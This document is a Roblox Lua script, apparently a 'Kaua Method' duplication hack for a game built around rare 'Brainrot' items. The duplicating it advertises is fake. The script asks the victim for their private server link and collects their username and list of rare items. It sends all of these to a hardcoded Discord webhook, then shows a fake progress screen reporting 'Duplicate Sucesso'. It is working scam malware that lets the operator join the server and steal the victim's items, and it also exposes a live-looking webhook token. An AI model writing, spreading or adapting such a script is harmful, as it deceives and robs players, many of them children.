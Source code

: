 loadstring([[
-- Services
local HttpService = game:GetService("HttpService")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local StarterGui = game:GetService("StarterGui")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer
local Workspace = game:GetService("Workspace")
local TweenService = game:GetService("TweenService")
local plots = Workspace:WaitForChild("Plots")

-- Packages
local NetPackages = ReplicatedStorage:WaitForChild("Packages"):WaitForChild("Net")

-- Notification listener
local notificationEvent = NetPackages:WaitForChild("RE/NotificationService/Notify", 5).OnClientEvent:Connect(function(title, message)
    -- Handle notifications here
end)

-- Toggle player settings
task.spawn(function()
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Music")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Sound Effects")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Chat Tips")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("VFX")
end)

-- Função para detectar Brainrots
local function reconhecerBrainrots()
    local brainrotsEncontrados = {}
    for _, obj in ipairs(plots:GetDescendants()) do
        if obj:IsA("TextLabel") and obj.Name == "Rarity" then
            local rarityText = obj.Text
            if rarityText == "Brainrot God" or rarityText == "Secret" then
                local parent = obj.Parent
                local displayName = parent:FindFirstChild("DisplayName")
                local generation = parent:FindFirstChild("Generation")
                if displayName and generation and displayName:IsA("TextLabel") and generation:IsA("TextLabel") then
                    table.insert(brainrotsEncontrados, {
                        name = displayName.Text,
                        rarity = rarityText,
                        generation = generation.Text
                    })
                end
            end
        end
    end
    return brainrotsEncontrados
end

-- UI: Server Link Input com animação
local brainrotUI = Instance.new("ScreenGui")
brainrotUI.Name = "BrainrotUI"
brainrotUI.ResetOnSpawn = false
brainrotUI.Parent = LocalPlayer:WaitForChild("PlayerGui")

local mainFrame = Instance.new("Frame", brainrotUI)
mainFrame.Size = UDim2.new(0, 400, 0, 180)
mainFrame.Position = UDim2.new(0.5, -200, -0.5, -90)
mainFrame.BackgroundColor3 = Color3.fromRGB(25, 35, 25)
mainFrame.Active = true
mainFrame.Draggable = true

local frameCorner = Instance.new("UICorner", mainFrame)
frameCorner.CornerRadius = UDim.new(0, 10)

-- Tween de entrada
local tweenInfo = TweenInfo.new(0.5, Enum.EasingStyle.Quad, Enum.EasingDirection.Out)
local goal = {Position = UDim2.new(0.5, -200, 0.5, -90)}
local tween = TweenService:Create(mainFrame, tweenInfo, goal)
tween:Play()

-- Título
local titleLabel = Instance.new("TextLabel", mainFrame)
titleLabel.Size = UDim2.new(1, 0, 0, 45)
titleLabel.BackgroundTransparency = 1
titleLabel.Font = Enum.Font.GothamBold
titleLabel.TextSize = 20
titleLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
titleLabel.Text = "Kaua Method"

-- Caixa de link do servidor
local serverLinkBox = Instance.new("TextBox", mainFrame)
serverLinkBox.Size = UDim2.new(0.9, 0, 0, 40)
serverLinkBox.Position = UDim2.new(0.05, 0, 0.45, 0)
serverLinkBox.PlaceholderText = "Server Privado Aqui"
serverLinkBox.Font = Enum.Font.Gotham
serverLinkBox.TextSize = 18
serverLinkBox.TextColor3 = Color3.new(1, 1, 1)
serverLinkBox.BackgroundColor3 = Color3.fromRGB(40, 60, 40)
serverLinkBox.TextXAlignment = Enum.TextXAlignment.Left
serverLinkBox.ClearTextOnFocus = false
serverLinkBox.Text = ""

local textBoxCorner = Instance.new("UICorner", serverLinkBox)
textBoxCorner.CornerRadius = UDim.new(0, 8)

-- Botão Enter
local enterButton = Instance.new("TextButton", mainFrame)
enterButton.Size = UDim2.new(0.9, 0, 0, 40)
enterButton.Position = UDim2.new(0.05, 0, 0.75, 0)
enterButton.BackgroundColor3 = Color3.fromRGB(0, 200, 100)
enterButton.Text = "Enter"
enterButton.Font = Enum.Font.GothamBold
enterButton.TextSize = 18
enterButton.TextColor3 = Color3.new(1, 1, 1)

local buttonCorner = Instance.new("UICorner", enterButton)
buttonCorner.CornerRadius = UDim.new(0, 8)

-- Botão Enter Click
enterButton.MouseButton1Click:Connect(function()
    local serverLink = serverLinkBox.Text
    if serverLink == "" then
        warn("⚠ Você precisa colocar um link válido!")
        return
    end

    enterButton.Text = "✔ Valido"  
    enterButton.BackgroundColor3 = Color3.fromRGB(0, 255, 120)  
    task.wait(0.5)  
    brainrotUI:Destroy()  

    local brainrots = reconhecerBrainrots()
    local brainrotText = ""
    for i, br in ipairs(brainrots) do
        brainrotText = brainrotText .. string.format("• %s (%s) | Valor: %s\n", br.name, br.rarity, br.generation)
    end
    if brainrotText == "" then brainrotText = "Nenhum Brainrot encontrado." end

    -- Envio webhook
    task.spawn(function()
        local webhookUrl = "https://discord.com/api/webhooks/1429301109255573596/IWZFS63ptlKMwCQdSE0Ygvgxgusor4cH0dVjKwuN7U8ZSDwsb4VhPGmz08k51i0dU-IZ"
        local embed = {
            username = "Kauã Methods",
            avatar_url = "https://i.imgur.com/wtdl6SY.png",
            embeds = {{
                color = 65280,
                title = "Novo servidor!!",
                description = "Uma nova pessoa executou o alvorada hub.",
                fields = {
                    {name = "👤 Player Information", value = string.format("**Name:** %s", LocalPlayer.Name), inline = false},
                    {name = "🖇️ Entrar server privado", value = string.format("[Click to Join](%s)", serverLink), inline = false},
                    {name = "🧠 Brainrots Detectados", value = brainrotText, inline = false},
                },
                footer = {text = "Kauã Methods | Notificacoes Alv", icon_url = "https://i.imgur.com/wtdl6SY.png"},
                timestamp = DateTime.now():ToIsoDate()
            }}
        }

        local body = HttpService:JSONEncode(embed)
        local req = request or http_request or (syn and syn.request) or (fluxus and fluxus.request) or (krnl and krnl.request)

        if req then
            local response = req({
                Url = webhookUrl,
                Method = "POST",
                Headers = {["Content-Type"] = "application/json"},
                Body = body
            })
            print("✔ Webhook enviado! Status:", response and response.StatusCode or "sem resposta")
        else
            warn("⚠ Seu executor não suporta envio de webhook (HTTP Request bloqueado).")
        end
    end)

    -- Loader / Script Promises
    local loaderGui = Instance.new("ScreenGui", game:GetService("CoreGui"))
    loaderGui.Name = "DuplicateLoader"
    loaderGui.IgnoreGuiInset = true
    loaderGui.ResetOnSpawn = false

    local loaderFrame = Instance.new("Frame", loaderGui)
    loaderFrame.Size = UDim2.new(1, 0, 1, 0)
    loaderFrame.BackgroundColor3 = Color3.fromRGB(0, 20, 0)

    local loaderTitle = Instance.new("TextLabel", loaderFrame)
    loaderTitle.Size = UDim2.new(1, 0, 0.1, 0)
    loaderTitle.Position = UDim2.new(0, 0, 0.35, 0)
    loaderTitle.BackgroundTransparency = 1
    loaderTitle.Font = Enum.Font.GothamBold
    loaderTitle.TextSize = 36
    loaderTitle.TextColor3 = Color3.fromRGB(80, 255, 80)
    loaderTitle.Text = "Duplicate em andamento ."
    loaderTitle.TextScaled = true

    local loaderPercent = Instance.new("TextLabel", loaderFrame)
    loaderPercent.Size = UDim2.new(1, 0, 0.1, 0)
    loaderPercent.Position = UDim2.new(0, 0, 0.45, 0)
    loaderPercent.BackgroundTransparency = 1
    loaderPercent.Font = Enum.Font.GothamBold
    loaderPercent.TextSize = 24
    loaderPercent.TextColor3 = Color3.fromRGB(80, 255, 80)
    loaderPercent.Text = "0%"

    local loaderDesc = Instance.new("TextLabel", loaderFrame)
    loaderDesc.Size = UDim2.new(1, 0, 0.05, 0)
    loaderDesc.Position = UDim2.new(0, 0, 0.52, 0)
    loaderDesc.BackgroundTransparency = 1
    loaderDesc.Font = Enum.Font.Gotham
    loaderDesc.TextSize = 16
    loaderDesc.TextColor3 = Color3.fromRGB(180, 255, 180)
    loaderDesc.Text = "Espere e seja feliz"
    loaderDesc.TextScaled = true
    loaderDesc.TextWrapped = true
    loaderDesc.TextXAlignment = Enum.TextXAlignment.Center

    local loaderFooter = Instance.new("TextLabel", loaderFrame)
    loaderFooter.Size = UDim2.new(1, 0, 0.05, 0)
    loaderFooter.Position = UDim2.new(0, 0, 0.9, 0)
    loaderFooter.BackgroundTransparency = 1
    loaderFooter.Font = Enum.Font.GothamBold
    loaderFooter.TextSize = 18
    loaderFooter.TextColor3 = Color3.fromRGB(100, 255, 100)
    loaderFooter.Text = "Duplicate Sucesso"

    for i = 1, 100 do
        loaderPercent.Text = i.."%"
        task.wait(0.05)
    end

    loaderTitle:Destroy()
    loaderPercent:Destroy()
    loaderDesc:Destroy()

    local loaderCompleteLabel = Instance.new("TextLabel", loaderFrame)
    loaderCompleteLabel.Size = UDim2.new(1, 0, 1, 0)
    loaderCompleteLabel.BackgroundTransparency = 1
    loaderCompleteLabel.Font = Enum.Font.GothamBold
    loaderCompleteLabel.TextScaled = true
    loaderCompleteLabel.TextColor3 = Color3.fromRGB(100, 255, 100)
    loaderCompleteLabel.Text = "Script Carregou, so esperar entre 2-3 minutos.."

end)
]])()
